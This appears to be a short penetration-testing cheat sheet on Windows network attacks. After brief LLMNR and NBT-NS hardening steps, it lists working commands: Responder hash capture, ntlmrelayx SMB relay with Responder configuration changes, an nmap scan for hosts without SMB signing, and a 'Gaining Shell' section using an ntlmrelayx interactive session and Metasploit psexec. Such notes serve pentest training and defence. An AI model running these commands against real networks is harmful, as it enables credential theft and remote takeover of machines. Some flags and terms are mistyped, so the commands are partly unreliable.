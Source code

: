 ##### LLMNR Poisoning Defense
- Turn off Multicast name resolution
```
[Local Computer Policy  / Computer Config / Admin Templatesd / Network / DNS Client]
```
- Disable NBT-NS
```
[Network Adapter Properties / TCP Properties / Advanced / Wins / Disable Netbios over TCP/IP ]
```
    Else:
        - Require Network Access Control
        - Strong Passwords



#### Capture NTMLv2 hashes with Responder
```bash
sudo responder -I eth0 -dw
```

#### SMB Relay Attacks
Instead of cracking hashes, relay credentials instead
- SMB signing needs to be off
- Relayed creds must be admin on machine


```bash
/etc/responder/Responder.conf # SMB = Off / HTTP = Off
python ntlmrelayx.py -ft targets.txt -smb2support
```

> SAM Hashes
Local user hashes / Windows version of ```/etc/passwd``` for local users

#### Discovering Hosts with SMB signing disabled
> Defaults

- Local machines = Off
- Servers = On

> Find via

- nessus scan
- nmap

```bash
sudo nmap --script=smb2-security-mode -p 445 192.168.131.0/24
```

#### Gaining Shell

```
sudo responder -I eth0 -dw
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
sudo nc 127.0.0.1 11000
```

```bash
msfconsole/windows/smb/psexec
    execute -f cmd.exe -i -H

```
